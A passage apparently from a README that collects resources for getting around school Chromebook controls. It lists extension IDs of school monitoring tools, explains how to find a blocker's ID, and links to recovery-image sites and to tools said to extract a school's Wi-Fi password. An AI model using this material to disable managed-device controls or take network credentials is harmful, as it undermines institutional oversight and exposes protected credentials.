|<a href="https://chrome.google.com/webstore/detail/imtlazarusv16/cgigopjakkeclhggchgnhmpmhghcbnaf">IMTLazarus</a>|`cgigopjakkeclhggchgnhmpmhghcbnaf`| 
|<a href="https://chrome.google.com/webstore/detail/impero-backdrop/jjpmjccpemllnmgiaojaocgnakpmfgjg">Impero Backdrop</a>|`jjpmjccpemllnmgiaojaocgnakpmfgjg`|
|<a href="https://chrome.google.com/webstore/detail/intersafe-gatewayconnecti/ecjoghccnjlodjlmkgmnbnkdcbnjgden">InterSafe GatewayConnection Agent</a>|`ecjoghccnjlodjlmkgmnbnkdcbnjgden`| 
|<a href="https://chrome.google.com/webstore/detail/gopher-buddy/cgbbbjmgdpnifijconhamggjehlamcif">Gopher Buddy</a>|`cgbbbjmgdpnifijconhamggjehlamcif`|
|<a href="https://chrome.google.com/webstore/detail/connect-for-chrome-educat/ddfbkhpmcdbciejenfcolaaiebnjcbfc">Connect for Chrome - Education</a>|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|

If your blocker is not on this list: go to `chrome://extensions`, details on your blockers extension, then copy the code in the url (after chrome://extensions/?id=). 
Here's all the good places to find your Blocker id 
`chrome://extensions` 
`chrome://extensions-internals` 
`chrome://process-internals` 
Search up the blocker ID on google if you have too 
If you can't find them in those URL'S Manualy then try to do ctrl + f and type in your blocker name or ID

</details>

<details>
<summary><b>Chrome100</b> Recovery image directory</summary>

<a href="https://chrome100.dev/">Website</a>

<a href="https://github.com/e9x/chrome100">GitHub</a>

</details>

<details>
<summary><b>Updates</b> View channel versions & download recovery images</summary>

<a href="https://cros.tech/">Website</a>

</details>

<details>
<summary><b>Changes</b> Chromium changes & requests</summary>

<a href="https://chromium-review.googlesource.com/">Website</a>

</details>

<details>
<summary><b>Wi-Fi Password Extracter</b> Extract your schools Wi-Fi password</summary>

<a href="https://sipe.glitch.me/">Sync Internals Password Extractor</a>

<a href="https://n-p-p-e.glitch.me/">Netlog Policy Password Extractor</a>

<a href="https://luphoria.com/netlog-policy-password-tool">Policy Password Tool</a>

</details>
